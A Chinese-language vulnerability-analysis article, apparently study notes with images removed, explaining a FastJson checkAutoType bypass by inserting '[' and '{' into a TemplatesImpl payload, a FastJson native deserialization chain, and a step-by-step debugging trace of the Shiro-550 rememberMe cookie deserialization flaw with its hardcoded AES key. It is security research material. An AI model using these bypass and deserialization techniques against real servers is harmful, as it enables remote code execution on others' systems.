那么可以对payload进行改造，在TemplatesImpl类前面加一个“[”字符，这样就可以绕过checkAutoType函数的过滤，如下所示：

```
[com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
```

再次运行程序还是会报错，根据抛出的异常来看，是在调用DefaultJSONParser类的parseArray方法时抛出的异常


 但是DefaultJSONParser类的parseArray方法是在checkAutoType函数之后调用的，可以肯定的是checkAutoType函数被绕过了，那么到底是哪里出错了？

我们来分析一下DefaultJSONParser类的parseArray方法，发现是parseArray方法的if语句会判断token的值，如果token的值不是14就抛出的异常，这里可以看到解析出来的token值为16，那么token的值从何而来？


通过对token进行回溯分析，发现调用完checkAutoType函数之后，接着会调用nextToken方法设置token


nextToken方法在case 16会判断ch的值，然后根据ch的值设置token，在调试分析中**ch的值是json数据中第一个逗号出现的位置（固定从这个位置取值）**，我们需要把token的值设置为14来绕过DefaultJSONParser类的parseArray方法。


既然ch取值的位置是固定的，并且还不能为以上的字符，根据之前的异常信息来看，71索引的位置正好是json中第一个逗号出现的位置，那么我们可以在逗号前的位置加一个“[”符号，如下所示


再次运行程序，这次会调用无参的nextToken方法把token的值设置为14，绕过DefaultJSONParser类的parseArray方法


 虽然绕过了DefaultJSONParser类的parseArray方法，但是依然会抛出异常报错，从抛出的异常信息来看，提示在72索引位置缺少一个“{”字符，不同于之前的异常，这次是JavaBeanDeserializer类的deserialze方法抛出的异常


再次尝试再72索引位置加一个“{”字符，发现可以利用成功。


### FastJson原生反序列化

依靠其他依赖的利用链，总归会受到环境的影响，因此我们可以尝试找出fastjson的原生反序列化链

#### FastJson<=1.2.48

在FastJson包里面找到继承Serializable接口的类，最后锁定的是这两个类：`JSONObject`和`JSONArray`类

**JSONArray类利用链**

首先我们要找到入口点，就是readObject方法，但是我们却发现`JSONArray`中并不存在`readObject`方法，并且他`extends`对应的`JSON`类也没有readObect方法，所以这里我们只有通过其他类的readObject方法来触发JSONArray或者JSON的某个方法来实现调用链。

这里我们就要引入toString方法，我们可以发现在Json类中存在toString方法能够触发toJSONString方法的调用。然后我们再来探索一下

如果可以触发getter方法，就能够进行进一步的调用链

## shiro

#### shiro550：

#### 原理

Shiro 550 反序列化漏洞存在版本：shiro <1.2.4，产生原因是因为shiro接受了Cookie里面`rememberMe`的值，然后去进行Base64解密后，再使用aes密钥解密后的数据，进行反序列化。

反过来思考一下，如果我们构造该值为一个cc链序列化后的值进行该密钥aes加密后进行base64加密，那么这时候就会去进行反序列化我们的payload内容，这时候就可以达到一个命令执行的效果。

```
获取rememberMe值 -> Base64解密 -> AES解密 -> 调用readobject反序列化操作
```

#### 分析

rememberMe功能由RememberMeManager提供，RememberMeManager是个接口，其实现类为


在AbstractRememberMeManager中，他将密钥直接写在了代码中


接下来跟一下调用流程


在DefaultSecurityManager的createSubject方法中调用resolvePrincipals方法解析rememberMe参数，识别用户身份


先从context中解析用户身份，解析不到再调用getRememberedIdentity方法中解析用户身份


DefaultSecurityManager不具备解析rememberMe参数的能力，交由给RememberMeManager去解析，他会调用getRememberedPrincipals方法去解析rememberMe参数


在AbstractRememberMeManager的getRememberedPrincipals方法中调用getRememberedSerializedIdentity获取用户标识在AbstractRememberMeManager的getRememberedPrincipals方法中调用getRememberedSerializedIdentity获取用户标识


getRememberedSerializedIdentity方法中将rememberMe参数的值进行base64解码，然后返回


返回的字节再调用convertBytesToPrincipals进行转换


先AES解密，然后再反序列化，下面就没必要看了，就是常规的获取反序列化器进行反序列化，这里就造成了反序列化漏洞，可以配合CC链以及其他链去执行任意代码

整个流程梳理下来就是：

1. 若存在RememberMe属性，则获取他的值
2. 将值进行base64解码
3. 然后再进行AES解密
4. 然后进行反序列化

所以只要我们控制了AES密钥，同时服务器存在利用链就可以进行反序列化攻击，执行任意代码

#### 详细分析：

##### 普通登录：

我们在登录点直接下断点分析


先调试，然后返回登录页面登录，再到ij分析


可以看到在这里获取了三个登陆参数的值，然后带入`UsernamePasswordToken`类进行处理，跟进看一下这个类做了什么


从文档了解到这个类是封装了提交的用户名密码以及`rememberMe`是否勾选，继续跟进


这里设置好了四个字段，回到`UserController`类


可以看到把`UsernamePasswordToken`对象传入了`subject`的`login`方法，这里的`subject`对象实际上获取到的是`WebDelegatingSubject`对象


而`WebDelegatingSubject`对象是`DelegatingSubject`的子类，跟进到`DelegatingSubject`的`login`方法


这里又调用了`securityManager`的`login`方法来对token进行校验，即`DefaultSecurityManager`的login方法，判断是否有这个用户


跟进defaultsecuritymanager 的login方法发现通过抽象类`AuthenticatingSecurityManager`的`authenticate`方法进行验证



这里包装的`authenticator`是`ModularRealmAuthenticator`，跟进


继承自`AbstractAuthenticator`，跟进到`authenticate`方法，中间又调用了`doAuthenticate`方法


跟进


跟进到`doAuthenticate`方法，这个方法是通过迭代Realm的内部集合来验证token，如果realm有多个，会多个迭代验证，如果realm只有一个，则直接调用`doSingleRealmAuthentication`



可以看到我们只有一个`MainRealm`，那么直接跟进到`MainRealm`的`Authenticator`


验证账号密码，通过则返回一个`SimpleAuthenticationInfo`，失败则抛出报错，最后将登录验证后的信息全部return，回到`UserController`


至此整个普通登录流程分析完毕

##### 勾选rememberme登录，产生rememberme：

shiro550的主要漏洞点是rememberMe参数，我们来看看勾选了rememberMe后的登录流程


其他步骤和普通登录一样，我们直接跟到`UsernamePasswordToken`


回到`UserController`，跟进`DelegatingSubject`的login方法


跟进到`DefaultSecurityManager`的login方法，完成了验证之后会调用`onSuccessfulLogin`方法


跟进到`onSuccessfulLogin`方法


调用了`rememberMeSuccessfulLogin`方法，继续跟进


此时rmm通过`getRememberMeManager`方法获取到了一个`RememberMeManager`对象


我们来看看`RememberMeManager`对象是怎么来的


跟进`RememberMeManager`，一共有两处实现了这个接口


回到`ShiroConfig`类，我们可以看到这里是通过`cookieRememberMeManager`作为RememberMeManager


直接跟进到`cookieRememberMeManager`类



跟进到父类`AbstractRememberMeManager`


这里是base64编码后的硬编码key，跟进到AbstractRememberMeManager构造器


实例化时设置了默认的序列化器、设置加密服务为AES以及密钥，参数如下


此时我们获取到了一个完整的`cookieRememberMeManager`



回到`rememberMeSuccessfulLogin`方法


调用了rmm的`onSuccessfulLogin`方法


删除身份数据后，通过`isRememberMe`来判断是否启用了rememberMe


如果为true则进入`rememberIdentity`流程，先从authcInfo获取了账号主体，这一步是通过LinkedHashMap来追踪账号主体

